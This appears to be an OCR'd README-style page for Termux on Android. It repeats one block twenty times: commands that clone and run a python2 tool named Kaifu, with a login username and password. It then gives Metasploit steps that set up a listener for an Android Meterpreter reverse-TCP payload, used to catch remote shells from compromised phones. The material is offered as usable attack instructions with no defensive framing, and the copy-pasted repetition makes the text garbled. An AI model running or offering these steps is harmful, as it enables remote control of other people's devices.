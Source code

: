 
⭕No 1
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker

⭕No 2
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 3
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 4
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 5
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 6
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 7
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 8
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 9
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker

⭕No 10
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 11
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 12
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 13
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 14
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 15
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 16
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker

⭕No 17
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 18
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker
⭕No 19
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker

⭕No 20
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/Kaifu
cd Kaifu
python2 Kaifu.py

User Name : Kaifu
Password   : Tricker

#Metasploit Commands
》》Requirements:-

1: Termux App (From Playstore)
2: Good Internet connection  (Must)
3: 2GB free Storage  (Must)
4: Android Version 5.0+ (Must)
5: 4GB+ RAM
6: Fast Processor

#installation

1: pkg update
2: pkg upgrade
3: pkg install unstable-repo
4: pkg install metasploit
5: msfconsole
6: use exploit/multi/handler
7: set payload android/meterpreter/reverse_tcp 
8: set lhost 
8: set lport 8080
10: exploit
